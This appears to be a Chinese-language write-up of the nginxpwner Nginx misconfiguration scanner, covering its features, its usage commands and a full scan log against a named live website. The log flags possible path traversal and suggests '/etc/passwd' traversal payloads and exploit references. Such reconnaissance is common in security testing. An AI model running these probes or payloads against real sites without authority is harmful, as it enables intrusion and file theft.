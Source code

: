 NGINX漏洞检查

https://github.com/stark0de/nginxpwner

Nginxpwner 是一个简单的工具,用于查找常见的 Nginx 配置错误和漏洞。它可以检测 Nginx 版本是否过时,并提供相关漏洞信息;扫描 Nginx 特定的漏洞,如 CRLF 注入、路径遍历、变量泄露等;还可以测试 PURGE HTTP 方法的可用性,以及 401/403 绕过等问题。该工具主要关注开发人员在 nginx.conf 中可能引入的配置错误。

### 主要功能点

- 获取 Nginx 版本并检查是否存在已知漏洞
- 使用 gobuster 扫描 Nginx 特定的漏洞
- 检查 CRLF 注入、路径遍历、变量泄露等常见配置错误
- 测试 PURGE HTTP 方法的可用性
- 检查 401/403 绕过漏洞
- 测试 Raw backend 读取响应的配置错误
- 检查 PHP 相关的 Nginx 配置问题
- 测试 CVE-2017-7529 整数溢出漏洞



使用：

```sh
sudo docker run -it nginxpwner:latest /bin/bash
```

这段代码的作用是使用Burp工具获取一个主机的所有URL，然后将这些URL提取出路径，并去重排序，最后使用nginxpwner.py脚本来对指定的网站进行路径爆破。具体步骤包括：

1. 在Burp中选择目标标签页，选择主机，右键点击，复制该主机的所有URL，并保存到一个文件中。
2. 使用命令`cat urllist | unfurl paths | cut -d"/" -f2-3 | sort -u > /tmp/pathlist`对保存的URL文件进行处理，提取出路径并去重排序，保存到`/tmp/pathlist`文件中。
3. 或者通过其他方式获取已发现的应用程序中的路径列表（这些路径不应以/开头）。
4. 最后，使用命令`python3 nginxpwner.py https://example.com /tmp/pathlist`来运行nginxpwner.py脚本，对指定网站进行路径爆破。



检查 https://project.zhiwucloud.com/signin 过程：

```sh
root@ck-n1:/home/diantong/nginxpwner-main# python nginxpwner.py https://project.zhiwucloud.com pathlist

 _   _  _____  _____  _   _ __   ________  _    _  _   _  _____ ______
| \ | ||  __ \|_   _|| \ | |\ \ / /| ___ \| |  | || \ | ||  ___|| ___ \
|  \| || |  \/  | |  |  \| | \ V / | |_/ /| |  | ||  \| || |__  | |_/ /
| . ` || | __   | |  | . ` | /   \ |  __/ | |/\| || . ` ||  __| |    /
| |\  || |_\ \ _| |_ | |\  |/ /^\ \| |    \  /\  /| |\  || |___ | |\ \
\_| \_/ \____/ \___/ \_| \_/\/   \/\_|     \/  \/ \_| \_/\____/ \_| \_|

            A common vulnerability scanner for Nginx
                      Author @stark0de1
[-] NGINX out of date, current version is: 1.12.1 and last version is: 1.27.0
[-] All possible exploits will be printed now:
sh: 1: searchsploit: not found
[-] For the complete list of vulnerabilities check out: https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=nginx
[?] If the tool reveals the nginx.conf file this is probably because there is no root directive in the nginx.conf file. Get the contents of the file and use https://github.com/yandex/gixy to find more misconfigurations



2024/07/22 14:57:25 [!] 2 errors occurred:
        * WordList (-w): Must be specified (use `-w -` for stdin)
        * Url/Domain (-u): Must be specified



[+] No CRLF via common misconfiguration found
[+] No signs of misconfigured PURGE HTTP method
[+] No variable leakage misconfiguration found
[-] Possible path traversal vulnerability found for insecure merge_slashes setting
[-] Try this to URIs manually: ///../../../../../etc/passwd and //////../../../../../../etc/passwd
[?] Testing hop-by-hop headers

No relevant results for 127.0.0.1 tests
No relevant results for localhost tests
No relevant results for 192.168.1.1 tests
No relevant results for 10.0.0.1 tests

[?] To test Raw backend reading responses, please make a request with the following contents to Nginx. In case the response is interesting: https://book.hacktricks.xyz/pentesting/pentesting-web/nginx#raw-backend-response-reading

GET /? XTTP/1.1
Host: 127.0.0.1
Connection: close

[+] The site uses PHP
[!] If the site uses PHP check for this misconfig: https://book.hacktricks.xyz/pentesting/pentesting-web/nginx#script_name and also check this: https://github.com/jas502n/CVE-2019-11043. A last advice, if you happen to have a restricted file upload and you can reach the file you uploaded try making a request to <filename>/whatever.php,and if it executes PHP code it is because the PHP-FastCGI directive is badly configured (this normally only works for older PHP versions)


[?] Executing Kyubi to check for path traversal vulnerabilities via misconfigured NGINX alias directive

URL                                                     Status
--------------------------------------------------------------------------------
https://project.zhiwucloud.com/signin../ [200]
https://project.zhiwucloud.com/signin../../ [200]
https://project.zhiwucloud.com/signin../../../../../../../../../../../ [200]

[+] No X-Accel-Redirect bypasses found using it as request header

[?] Testing all provided paths to check to CRLF injection. This is specially interesting if the site uses S3 buckets or GCP to host files

[?] Testing for common integer overflow vulnerability in nginx's range filter module
target: https://project.zhiwucloud.com
status: 200: Server: nginx/1.12.1
status: 200: Server: nginx/1.12.1

[+] Non vulnerable



[?] If the site uses Redis, please do check out: https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/


[*] More things that you need to test by hand: CORS misconfiguration (ex: bad regex) with tools like Corsy, Host Header injection, Web cache poisoning & Deception in case NGINX is being for caching as well, HTTP request smuggling both normal request smuggling and https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf. As well as the rest of typical web vulnerabilities
```

